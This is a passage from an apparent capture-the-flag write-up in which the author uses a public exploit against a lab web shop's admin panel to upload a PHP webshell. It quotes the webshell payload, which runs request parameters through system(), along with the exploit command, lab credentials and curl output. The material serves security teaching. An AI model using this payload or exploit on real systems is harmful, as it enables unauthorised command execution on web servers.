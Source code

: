     

The exploit is nice enough to give me the address of the webshell, and
visiting it returns an empty page:

    
    
    root@kali# curl -v 'http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id'
    *   Trying 10.10.10.207:80...
    * Connected to 10.10.10.207 (10.10.10.207) port 80 (#0)
    > GET /shop/vqmod/xml/S59WW.php?c=id HTTP/1.1
    > Host: 10.10.10.207
    > User-Agent: curl/7.74.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Date: Sat, 16 Jan 2021 20:00:20 GMT
    < Server: Apache/2.4.29 (Ubuntu)
    < Content-Length: 0
    < Content-Type: text/html; charset=UTF-8
    < 
    * Connection #0 to host 10.10.10.207 left intact
    

So the upload succeeded, but the execution isn’t working. I can check that a
different way by modifying the script. It’s this line that sets the payload:

    
    
    files = {
            'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }
    

I’ll change that to something more benign:

    
    
    files = {
            'vqmod': (rand + ".php", "<?php echo '0xdf was here'; } ?>", "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }
    

It works:

    
    
    root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~'
    Shell => http://10.10.10.207/shop/admin/../vqmod/xml/XPKU4.php?c=id
    0xdf was here
    

`phpinfo()` will provide useful information about the box:

    
    